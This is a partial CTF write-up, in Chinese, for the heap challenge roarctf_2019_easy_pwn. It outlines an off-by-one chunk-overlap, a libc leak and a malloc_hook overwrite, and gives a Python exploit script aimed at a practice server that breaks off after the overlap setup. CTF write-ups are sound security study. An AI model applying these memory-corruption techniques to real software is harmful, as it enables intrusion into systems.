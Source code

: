 

## roarctf_2019_easy_pwn

（做到后面发现这题是个缝合怪， 0ctf_2017_babyheap的加强版）

off-by-one漏洞造成chunk overlapping

Unsorted Bin Leak泄露libc

fastbin attack修改malloc_hook为one_gadget

```python
from pwn_debug import *
context.log_level = 'debug'
pdbg = pwn_debug('./roarctf')

#pdbg.local("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so", "/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so")
#pdbg.debug('2.27')
pdbg.remote('node4.buuoj.cn', 25102, "./s/libc-2.23_x64.so")

p = pdbg.run('remote')
libc = pdbg.libc

one_gadget = [0x45226, 0x4526a]


def add(size):
	p.recvuntil('choice: ')
	p.sendline('1')
	p.recvuntil('size: ')
	p.sendline(str(size))

def write(index, size, content):
	p.recvuntil('choice: ')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(index))
	p.recvuntil('size: ')
	p.sendline(str(size))
	p.recvuntil('content: ')
	p.sendline(content)

def delete(index):
	p.recvuntil('choice: ')
	p.sendline('3')
	p.recvuntil('index: ')
	p.sendline(str(index))

def show(index):
	p.recvuntil('choice: ')
	p.sendline('4')
	p.recvuntil('index: ')
	p.sendline(str(index))

add(0x18) # 0
add(0x18) # 1
add(0xa8) # 2
add(0x18) # 3
write(0, 0x18+10, b'a'*(0x18) + b'\xd1')

delete(1)
add(0xc8)
write(1, 0x20, b'a'*(0x10) + p64(0) + p64(0xb1))
delete(2)
```
